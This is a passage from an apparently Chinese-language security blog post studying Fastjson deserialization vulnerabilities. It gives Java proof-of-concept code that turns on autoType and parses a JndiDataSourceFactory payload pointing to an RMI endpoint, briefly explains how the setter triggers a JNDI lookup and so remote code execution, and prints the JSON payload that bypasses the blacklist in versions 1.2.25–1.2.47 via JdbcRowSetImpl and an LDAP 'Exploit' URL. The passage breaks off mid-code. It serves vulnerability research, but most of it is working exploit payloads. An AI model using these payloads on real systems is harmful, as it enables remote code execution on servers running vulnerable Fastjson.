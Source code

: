     import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.ParserConfig;
    import com.sun.rowset.JdbcRowSetImpl;
    
    import java.sql.SQLException;
    
    public class fastjonTest2 {
        public static void main(String[] args) {
    
            String exp = "{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://localhost:1099/EXP\"}}" ;
    
    
            ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
            JSON.parseObject(exp);
        }
    }
    
    

这里采用的跟前面的方式不一样，学习一下

@type指定的是JndiDataSourceFactory类，调用的是setProperties,原理依然是fastJson会自动调用getter和setter方法。我们跟进setProperties看看

![image-20220414154301140](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173316396-981905272.png)

到了这里就是会lookup，传入的json字符串data\_source,造成RCE

![image-20220414154401548](https://img2022.cnblogs.com/blog/2804790/202204/2804790-20220414173317555-1012562078.png)

### 2.6、1.2.25-1.2.47通杀

没有autotype限制和黑名单限制

    {
        "a": {
            "@type": "java.lang.Class", 
            "val": "com.sun.rowset.JdbcRowSetImpl"
        }, 
        "b": {
            "@type": "com.sun.rowset.JdbcRowSetImpl", 
            "dataSourceName": "ldap://localhost:1389/Exploit", 
            "autoCommit": true
        }
    }
    
    

    package com.akkacloud.demo;
    
    import com.alibaba.fastjson.JSON;
    import com.alibaba.fastjson.parser.ParserConfig;
    import com.sun.rowset.JdbcRowSetImpl;
    import org.apache.ibatis.datasource.jndi.JndiDataSourceFactory;
    
    import java.sql.SQLException;
    
    public class fastjonTest2 {
        public static void main(String[] args) {
    